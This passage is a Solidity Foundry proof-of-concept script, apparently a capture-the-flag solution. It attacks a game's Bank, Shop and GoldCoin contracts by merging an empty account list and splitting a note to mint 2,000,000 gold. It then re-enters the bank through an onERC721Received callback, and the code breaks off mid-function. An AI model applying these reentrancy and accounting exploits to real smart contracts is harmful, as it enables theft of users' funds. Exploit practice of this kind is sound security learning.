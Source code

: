 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/Test.sol";
import "src/Setup.sol";

contract PoC is Script, Test {
    uint256 internal increment;
    Setup S = new Setup();
    Knight K = Knight(S.knight());
    Dragon D = Dragon(S.knight().dragon());
    GoldCoin G = GoldCoin(S.knight().goldCoin());
    Shop Sh = Shop(S.knight().shop());
    Bank B = Bank(S.knight().bank());
    Item I = Item(S.knight().item());

    function setUp() public {}

    function run() public {
        S.claim();
        emit log_named_address("The Knight address", address(S.knight()));
        //emit log_named_uint("The Knight is alive", K.health() > 0);
        emit log_named_uint("Health of the knight", K.health());
        emit log_named_uint("Health of the Dragon", D.health());
        emit log_named_uint(
            "The number of gold piece of BANK",
            G.balanceOf(address(B)) / 1 ether
        );
        emit log_named_uint(
            "The number of gold piece",
            G.balanceOf(address(K)) / 1 ether
        );

        uint[] memory bankNoteIdsFrom = new uint[](1);
        uint[] memory amounts = new uint[](1);
        bankNoteIdsFrom[0] = 1;
        amounts[0] = 1;

        uint[] memory accounts = new uint[](0);
        B.merge(accounts);
        uint[] memory split_amount = new uint[](2);
        split_amount[0] = 2_000_000 * 1 ether;
        split_amount[1] = 0;
        B.split(1, split_amount);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) public returns (bytes4) {
        if (increment == 0) {
            increment++;
            return this.onERC721Received.selector;
        }
        if (increment > 1) {
            B.bankNoteValues(2);
            B.withdraw(2);
            G.approve(address(Sh), type(uint256).max);
            Sh.buyItem(4);
```